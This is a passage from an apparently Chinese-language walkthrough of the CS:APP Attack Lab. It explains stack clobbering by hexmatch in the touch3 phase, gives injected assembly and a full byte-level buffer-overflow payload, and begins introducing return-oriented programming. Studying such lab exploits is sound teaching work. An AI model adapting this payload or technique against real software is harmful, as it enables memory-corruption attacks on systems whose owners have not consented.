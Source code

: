 可以看到，touch3相关的函数会把`getbuf()`栈里头的内容给覆写掉，所以我们要好好想想如何保护我们注入的代码和字符串。

从`hexmatch()`的汇编也可以看出，实际是对着`%rsp`减了126，应该是用来给`cbuf[110]`用的，从代码上可以看出，这波是在随机的起始地址上存了cookie的字符串，那么也就是说，`hexmatch`函数随机存入的cookie string，有可能会把我们构造的字符串给覆盖掉

```
401850: 48 83 c4 80           add    $0xffffffffffffff80,%rsp
```

思考一下，直接把`%rsp`给拉下来`0x28+0x8`即`0x30`就行了（也可以把这个字符串放在更高的地址上），减掉`0x30`是为了不使得注入的代码被破坏，因为我构造的代码有`pushq`。（~~别问我怎么知道的，问就是我只想减去`0x8+0x10`结果就segmentation fault了~~

紧接着，cookie的字符串的字节码如下

```
35 39 62 39 39 37 66 61 00
```

我们写出下面的汇编

```
sub $0x30, %rsp # protect
movq $0x5561dc78, %rdi # addr of cookie string
movq $0x4018fa, %rax # addr of touch3()
pushq %rax
retq
```

所以最后的字节码如下

```
/* cookie string */
35 39 62 39 39 37 66 61
00 00 00 00 00 00 00 00
/* injected code */
48 83 ec 30 48 c7 c7 78
dc 61 55 48 c7 c0 fa 18
40 00 50 c3 00 00 00 00
/* return to injected code */
88 dc 61 55 00 00 00 00
```

## ROP

面向对象编程，面过过程还有函数式编程，我们都很熟悉了。那么，什么是面向返回编程呢？

当一个程序使用了如下的技术的时候，上面的代码注入操作就没用了

- Randomized stack address
- Set section of memory holding the stack as non-executable

首先我们无法确定栈的地址，即使能确定，但由于栈所在的内存区域，被标记为了不可执行，所以一旦执行位于栈上的代码就会出现`segment fault`

但如果我们可以利用该程序里头现有的代码（字节码）完成攻击

比如有一段代码

```c
void setval_210(unsigned *p)
{
  *p = 3347663060U;
}
```
